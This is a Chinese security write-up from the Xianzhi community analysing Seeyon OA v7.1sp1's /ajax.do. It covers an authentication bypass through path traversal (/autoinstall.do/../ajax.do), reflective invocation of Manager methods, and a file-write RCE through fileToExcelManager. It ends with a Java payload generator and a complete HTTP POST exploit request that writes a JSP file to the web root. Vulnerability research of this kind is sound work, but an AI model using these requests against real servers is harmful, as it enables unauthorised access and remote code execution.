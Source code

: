 

# 某OA ajax.do处漏洞分析 - 先知社区

某OA ajax.do处漏洞分析

- - -

# ajax.do处漏洞分析

本次分析版本v7.1sp1  
/ajax.do可以调用其他类的方法，但ajax.do默认是不允许未授权访问的  
[![](assets/1700442765-c083d8d493a69cfd53fbd5c01d47be13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091052-510ddf10-85af-1.png)  
登录后访问是这样子的  
[![](assets/1700442765-2d6d44951ba46dbc1df1c7352c9517be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091104-58422516-85af-1.png)

## 权限绕过

观察web.xml发现.do结尾的路由会经过SecurityFilter  
[![](assets/1700442765-2000c32f6838f5e39aeef55f6ccf3f21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091126-6561e24a-85af-1.png)  
CTPSecurityFilter类中做了校验，首先调用isSpringController进行校验  
[![](assets/1700442765-1b08eb07f4389200c124549950e805cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091136-6bb93152-85af-1.png)  
isSpringController只要是.do结尾的或者包含.do;jsessionid都会返回true  
[![](assets/1700442765-7fd9607d70b4ced9e7cc99c6b5d573b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091149-73347266-85af-1.png)  
然后调用SpringControllerAuthenticator#authenticate  
[![](assets/1700442765-a94b49cf00f343dbe159c177c411617f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091157-782280ba-85af-1.png)  
authenticate方法中判断是否登录，未登录调用this.isNeedlessCheckLogin  
[![](assets/1700442765-c3efa91f324b6499721b9fbf5172deef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091207-7e3f3f92-85af-1.png)  
isNeedlessCheckLogin中，如果路由是/ajax.do，会将accessUrl设置为managerName参数的值，这里没有传入，就是null  
[![](assets/1700442765-5a4b838cba7aa790b33d926f9f21642c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091215-8296c196-85af-1.png)  
然后获取needlessUrlMap  
[![](assets/1700442765-b8b1c6b9ac15943fb059c3737b236d6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091225-88f1ff06-85af-1.png)  
遍历判断accessUrl是否在这个map中  
[![](assets/1700442765-4bd00fb13bb3c185c07b8de24d99e33c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091309-a2d74d04-85af-1.png)  
accessUrl为null的时候直接抛出异常了，传个managerName进行测试  
[![](assets/1700442765-ce0616238a1e066058a42af22ba79cd7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091318-a864948e-85af-1.png)  
isNeedlessCheckLogin返回false后赋值给isAnnotationNeedlessLogin，会调用到this.checkOnlineState  
[![](assets/1700442765-bdca8db502cac180457e2e74ad753a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091327-ade03468-85af-1.png)  
因为没有登录，所以checkOnlineState也会返回false  
[![](assets/1700442765-92b4035bb327933fb9252595b8599f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091335-b2a028b4-85af-1.png)  
最后造成SpringControllerAuthenticator#authenticate返回false赋值给accept  
[![](assets/1700442765-40d2f667b8d95c8178a9085270e2d889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091343-b729539c-85af-1.png)  
当accept为false时，将不会进行filter链的调用  
[![](assets/1700442765-074dc8bbe328122cae05a52d49fa02bd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091350-bb3121b8-85af-1.png)  
思考：在isNeedlessCheckLogin方法中，因为accessUrl不在needlessUrlMap中，导致返回false，那么使accessUrl为needlessUrlMap中存在的key，是否就会返回true，例如：/main.do  
[![](assets/1700442765-82db502f3c546f048ad7747a65b82011.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091407-c5c3cd24-85af-1.png)  
那么ajax.do不在needlessUrlMap中，如何能够访问到ajax.do呢，可以利用spring的一个小trick，在低版本spring中alwaysUseFullPath为默认值false，本次分析版本中刚好alwaysUseFullPath也为false  
[![](assets/1700442765-34d094e40f8bf30e97f948ccaa80cb18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091414-c99bf25a-85af-1.png)  
当alwaysUseFullPath为false时，会调用getPathWithinServletMapping对url进行处理  
[![](assets/1700442765-b74ec542ec97f2ec481095980d5d347f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091420-cd09a978-85af-1.png)  
而getPathWithinServletMapping会对uri进行标准化处理，例如解码然后处理跨目录等，这就导致了可能的身份验证绕过  
成功绕过  
[![](assets/1700442765-d4176b06cccd69e486be5c2967f2562d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091431-d3beaab6-85af-1.png)

## ajax.do调用流程

接下来分析ajax.do是如何调用类的  
/ajax.do对应的是com.seeyon.ctp.common.service.AjaxController类  
[![](assets/1700442765-e35841d73b9d6313332bb2b5bf83ef4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091451-dfb67d44-85af-1.png)  
调用其他类的逻辑主要在ajaxAction方法中  
[![](assets/1700442765-f4b8aef2083fa211b64ff33d906c5f13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091456-e2dc9df0-85af-1.png)  
返回的字符是outStr，outStr调用了invokeService方法进行处理，接着如果传入了ClientRequestPath参数且不为黑名单的，会调用ZipUtil.compressResponse进行解压缩  
[![](assets/1700442765-6dc76b984f901ec7514694122f54ec19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091502-e68849ea-85af-1.png)  
跟进invokeService方法，首先分别获取serviceName、methodName、strArgs、compressType，然后根据传入的compressType，调用ZipUtil.uncompressRequest对strArgs进行处理  
[![](assets/1700442765-5fa3e3b08a59ae51a8b67a6a3e05d8a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091507-e9645884-85af-1.png)  
跟进uncompressRequest，可以看到，如果compressType是gzip的话会进行gzip解压缩，如果不是的话，就会返回原本的数据  
[![](assets/1700442765-12de9275470d59d7792eb04e6570dba3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091514-eda6a226-85af-1.png)  
回到invokeService方法，根据传入的serviceName调用getService方法，然后返回一个对象  
[![](assets/1700442765-ccd15258f447e14cc8ff60af9bdd31b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091520-f119c8c0-85af-1.png)  
跟进getService方法，调用了AppContext.getBean方法来获取对象  
[![](assets/1700442765-e25c5809b63443a71e7103b1e5f1a9cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091525-f3c9c05c-85af-1.png)  
跟进getBean方法，从beanCacheMap中获取缓存好的对象  
[![](assets/1700442765-de7305189df2a647da766a48e5444581.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091530-f6ffea94-85af-1.png)  
beanCacheMap中存放了Manager的名字和对应的对象  
[![](assets/1700442765-7cccaaefd76a51394fe79b3ea3aaa7dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091535-fa0c8c42-85af-1.png)  
回到getService方法，获取到对象后，还会判断其是否继承DataSource、Session、SessionFactory三个类，并且不为空，满足条件后return  
[![](assets/1700442765-83d328b093ac92a3f2e005eaaf9a1b75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091542-fe23b198-85af-1.png)  
返回invokeService方法，获取到对象后，会调用invokeMethod方法，传入获取到的对象、方法名、参数、类名  
[![](assets/1700442765-40d1983d20214be59b47979c93ab6a38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091547-01412f90-85b0-1.png)  
跟进invokeMethod方法，先将传入的strArgs参数解析成了Object对象，接着判断这个对象是否为List子类的实例，是的话会将Object强制转换成List对象，否则就会创建一个ArrayList对象。然后将传入的Object添加到ArrayList中  
[![](assets/1700442765-293dce136180c6309c5b5f11d8d8eac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091553-04923306-85b0-1.png)  
经接着会将serviceName + "*" + methodName + "*" + argsNum作为键值在this.candidateMethodCache中获取已经缓存的方法，返回一个list，如果获取到则会将传入的strArgs和list作为参数调用this.findMethodAndArgs((List)l, (List)list)  
[![](assets/1700442765-630585b6e98248539f8c3d98f815bd62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091558-079e2488-85b0-1.png)  
没获取到的话，会调用this.judgeCandidate  
[![](assets/1700442765-6a6e0fecaf87970506fa3a9f6b0d47c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091603-0aad6a1c-85b0-1.png)  
judgeCandidate方法中会反射获取services的所有方法，有符合的方法名和符合的所需参数个数的话，就会将这个方法加入到list中，返回list  
[![](assets/1700442765-e28736d4b6531f57912f81a90d83da97.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091608-0de7a13e-85b0-1.png)  
将返回的list作为参数，调用findMethodAndArgs方法  
[![](assets/1700442765-7576ba234b42fa7f31dd112a9046db06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091617-12c95d3c-85b0-1.png)  
findMethodAndArgs方法中，返回具体的Method对象和参数  
[![](assets/1700442765-b26be1ecd610503ebef2097c21cbdd55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091626-1867a6e0-85b0-1.png)  
将键值加入缓存  
[![](assets/1700442765-1c7554b4e8f239b7d38cc46ddbb949ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091632-1bd67680-85b0-1.png)  
反射调用对应的方法  
[![](assets/1700442765-3d6cce95e2613283194fbc17cedc4e87.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091638-1f87ca68-85b0-1.png)  
总结：beanCacheMap中存放了Manager的名字和对应的对象，可以通过传参调用对象的任意方法

## 修改权限绕过

当利用权限绕过的方式尝试调用对应的Manager时，会发现绕不过去了

```plain
/main.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1700442765-05649b2eb41223e115f40dbcb5ddc46b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091730-3eafb694-85b0-1.png)  
进行调试分析，发现是因为传入了method参数后，method为ajaxAction  
[![](assets/1700442765-1cc117bd80a70bc860dea5c57d3e9dc4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091739-4402e40e-85b0-1.png)  
这里返回了false  
[![](assets/1700442765-b22c37c5906b181b18e7ac13bc3e3780.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091745-474b5d76-85b0-1.png)  
key为/main.do时返回的方法中没有ajaxAction，导致没有匹配成功返回false，/main.do/../ajax.do因为没传method参数，method为index，而main.do时返回的方法中含有index，所以可以绕过  
[![](assets/1700442765-85098cf3845982719f9ef79ead86ecf5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091751-4b0b5060-85b0-1.png)  
继续观察发现methods.contains("*") || methods.contains(method)，只要2个条件成立一个就行了，methods.contains("*")就是表示needlessUrlMap.get(key)返回的methods中包含\*就行了  
而autoinstall.do刚好满足这个条件  
[![](assets/1700442765-128ddcf8bd92a99a811a03d5307d7924.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091802-51a03b84-85b0-1.png)  
所以可以利用autoinstall.do来进行权限绕过，利用ajax.do调用相应的Manager

```plain
/autoinstall.do/../ajax.do?method=ajaxAction&managerName=constDefManager&managerMethod=listPage
```

[![](assets/1700442765-fd84672040dceb8f76a15e07c92265d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091820-5c85661e-85b0-1.png)

## 漏洞利用

有很多Manager都存在漏洞，这里简单提一个fileToExcelManager，其saveExcelInBase方法存在文件上传问题，从而造成rce  
接受3个参数  
[![](assets/1700442765-75a46c3ad94cb65aa18a06b91b0220b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091839-67e20e86-85b0-1.png)  
保存文件，并没有对文件名进行校验  
[![](assets/1700442765-88b6b71702a44dc476124571666b0b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091848-6cdb6b4e-85b0-1.png)  
需要注意的是这里写入的文件，会在前后加入2个双引号，直接插入shell是不行的，解析不了，我们可以利用换行符和双引号来闭合前后的双引号，从而使中间的shell内容能够解析  
构造payload

```plain
import com.seeyon.ctp.common.excel.DataRecord;
import com.seeyon.ctp.common.log.CtpLogFactory;
import com.seeyon.ctp.util.ZipUtil;
import com.seeyon.ctp.util.json.JSONUtil;
import org.apache.commons.logging.Log;

import java.net.URLEncoder;
import java.util.ArrayList;

public class fileToExcelManagerPayload {
    private static final Log LOGGER = CtpLogFactory.getLog(fileToExcelManagerPayload.class);
    public static void main(String[] args) {

        DataRecord d = new DataRecord();
        String[] c = {"\"\r\n"+"<% out.println(\"ttttttttt\"); %>"+"\"\r\n"};
        d.setColumnName(c);
        String dd = JSONUtil.toJSONString(d);
        final ArrayList<Object> list = new ArrayList<>();
        list.add("../webapps/ROOT/x.jsp");
        list.add("\"\"");
        list.add(d);
        final String list1 = JSONUtil.toJSONString(list);
        String strArgs = ZipUtil.compressResponse(list1, "gzip", "UTF-8", LOGGER);
        System.out.println(URLEncoder.encode(strArgs));
        System.out.println("end");

    }
}
```

[![](assets/1700442765-2a957be7681324e103953a52f81cee4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091916-7d76753e-85b0-1.png)

```plain
POST /seeyon/autoinstall.do/../ajax.do?method=ajaxAction&managerName=fileToExcelManager HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 6357

managerMethod=saveExcelInBase&managerName=fileToExcelManager&method=ajaxAction&requestCompress=gzip&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00%5D%C2%8D%C3%81%0A%C3%820%10D%7F%C2%A5%2C%14%14B%C3%A2%C2%B9%C2%8A%C3%A7%1E%C3%84%C2%82%14%3C4%3D%C2%A46%C3%98H%C2%9A%C2%84dC%05%C3%B1%C3%9FM%09zp%C3%B64%C2%8F%C3%A5M%07%C2%94%C2%B2E%0E%C3%82%C2%B9%C3%80.M%C3%93%C2%B2%27%7D%04%07%04x%3A+%2F%C2%B8Y%1Dgs%16%C2%B3%C2%84%C2%AA%5B%C2%A9%C3%A7%C3%A6P%166%22u%5E%19%C3%94f%C3%83%01%C2%BF%C3%A1%C2%B0%C3%9D%17%C3%A51%C2%BFAO%60%14%28j%29%C3%86%C2%93%0A%C2%98%04%C2%89d%C3%A1U%C3%A1%04%C2%95%C2%89Z%13%08%C2%93%C2%94%C2%98%172%40%C2%85%C3%BAWB%1C%C3%9A%C2%BF%5EKu%C2%9F%C2%92nG%C3%80%C3%9Be%C3%95%C2%BE%C3%BB%0F%C3%8BJZ%C2%B7%C3%8A%00%00%00
```

[![](assets/1700442765-876d92b016cd1daa47ad75acc7a59605.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091942-8d7f8d3a-85b0-1.png)  
[![](assets/1700442765-d7c3c11f952e3fc8b7b24af3e0852f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118091947-9006927e-85b0-1.png)
